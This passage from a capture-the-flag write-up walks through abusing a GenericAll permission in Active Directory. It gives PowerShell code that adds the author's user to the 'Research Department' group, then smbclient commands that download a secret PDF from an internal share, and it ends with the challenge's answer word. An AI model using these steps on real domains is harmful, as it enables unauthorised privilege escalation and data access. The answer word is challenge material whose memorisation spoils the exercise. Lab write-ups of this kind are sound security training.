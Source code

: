 We can check if our action is successful with the commands we used before.

*(iqulelyrfv is my username)*
```
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])

ActiveDirectoryRights : GenericAll
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\iqulelyrfv
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```
It worked! Now that we have the permission to, we can add our user to that group, using the third script.
```Powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "YOUR_USERNAME_HERE"
$password = "YOUR_PASSWORD_HERE"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

We can now access the **research_dep** share on **10.128.3.30**
```{warning}
It could take up to five minutes for the changes to propagate.
```

## Santa PDF finally!

```
smbclient \\\\10.128.3.30\\research_dep -U ELFU.local\\iqulelyrfv
==> Enter Password

smb: \> dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Thu Dec 30 08:01:24 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

                41089256 blocks of size 1024. 34704268 blocks available

smb: \> get SantaSecretToAWonderfulHolidaySeason.pdf
getting file \SantaSecretToAWonderfulHolidaySeason.pdf of size 173932 as SantaSecretToAWonderfulHolidaySeason.pdf
smb: \> exit
```
We have downloaded the file that we probably needed to access, **SantaSecretToAWonderfulHolidaySeason.pdf**   
Transfer it to our computer, open it and the word requested by the challenge is **Kindness**.  
  
Done :)

